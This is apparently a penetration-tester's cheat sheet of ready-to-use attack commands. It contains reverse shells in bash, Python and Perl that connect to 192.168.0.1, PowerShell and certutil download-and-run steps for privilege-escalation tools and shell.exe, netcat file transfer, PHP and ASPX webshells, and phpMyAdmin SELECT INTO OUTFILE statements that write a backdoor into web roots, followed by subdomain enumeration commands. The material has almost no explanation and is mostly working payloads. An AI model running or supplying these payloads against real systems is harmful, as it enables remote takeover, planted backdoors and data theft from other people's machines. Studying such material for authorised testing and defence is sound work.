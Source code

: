 common commands
==============================================================

# Powershell File Transfer As Cmd.exe Command
```bash
powershell -ExecutionPolicy bypass -noprofile -c (New-Object System.Net.WebClient).DownloadFile('http://192.168.0.1:80/winprivesc/JuicyPotato.exe','C:\Users\john\Desktop\juicy.exe')
```

# SMB List Drives (Execute on Victim)
```
net view \\192.168.0.1
```

# SMB Copy Files (Execute on Victim)
```
copy \\192.168.0.1\server_name\shell.exe shell.exe
```

# Netcat Receiving file
```bash
nc -l -p 1234 > out.file
```

# Netcat Sending file
```bash
nc -w 3 192.168.0.1 1234 < out.file
```

# python upgrade shell (TTY Shell)
```
python -c 'import pty;pty.spawn("/bin/bash");' 
```

# Bash Reverse Shell
```
/bin/bash -i >& /dev/tcp/192.168.0.1/4433 0>&1
```

# Python Reverse Shell As Command 
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

# Python Reverse Shell Code 
```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.0.1",4444));os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

# Kali Default PHP Reverse Shell
```bash
cat /usr/share/webshells/php/php-reverse-shell.php
```

# Kali Default PHP CMD Shell
```bash
cat /usr/share/webshells/php/php-backdoor.php
```

# coyote PHP command shell
```php
<?php system($_REQUEST[0]); ?>
```


# WhiteWinterWolf Webshell
https://github.com/WhiteWinterWolf/wwwolf-php-webshell

# Active Sever Pages Extended (.aspx) Transfer A File (Certutil)
```
<% 
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c certutil.exe -urlcache -f http://192.168.0.1/shell.exe C:\Windows\Temp\shell.exe")
o = cmd.StdOut.Readall()
Response.write(o)
%>
```

# Active Sever Pages Extended (.aspx) Execute a File
```
<% 
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c C:\Windows\Temp\shell.exe")
o = cmd.StdOut.Readall()
Response.write(o)
%>
```

# Perl Reverse Shell
```
perl -MIO -e 'use Socket;$ip="192.168.0.1";$port=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($port,inet_aton($ip)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

# PhpmyAdmin write shell
## Windows
Write a CMD shell into a file with the right permissions. Issue the following select. (Try different paths for different webservers)
```
SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\backdoor.php"
```

# linux
Write a CMD shell into a file with the right permissions. Issue the following select. (Try different paths for different webservers)
```
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/shell.php"
```

# Sub domain Enum
```bash
findomain -t "$URL" -q
```

```bash
subfinder -d "$URL"
```

# URL CRAWL/ Discovery waybackurls
```bash
echo "$URL" | waybackurls| httpx-pd -silent > link.txt
```

